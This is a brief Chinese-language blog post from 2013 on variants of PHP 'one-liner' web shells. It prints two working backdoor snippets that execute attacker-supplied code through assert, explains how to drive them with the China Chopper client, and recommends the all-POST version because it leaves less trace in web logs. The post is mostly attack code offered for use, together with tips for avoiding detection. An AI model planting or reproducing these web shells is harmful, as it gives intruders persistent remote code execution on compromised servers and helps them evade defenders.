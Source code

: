 ```yaml
---
layout: post
title: "php一句话变形"
description: ""
category: web
tags: [php, websecurity]
published: true
disqus: y
date: 2013-05-19 22:40:59 +0800
---
```



### 前言

最近留了几个一句话都是这种形式的。

```php
<?php($_=@$_GET[2]).@$_($_POST[1])?>
```

使用方法是在菜刀里写`http://localhost/1.php?2=assert`密码是`1`。

### 总结

这样子做在web日志里很明显就可以看出来这是一个一句话。相比于这个更隐蔽的方法是两个参数都使用`POST`来提交。

```php
<?$_POST['1']($_POST['2']);?>
```

在使用时，配置一栏输入`<O>2=assert;</O>`，这样就可以附加提交`2=assert`。

更多强大猥琐的php一句话可以参考这里：http://www.freebuf.com/articles/web/9396.html
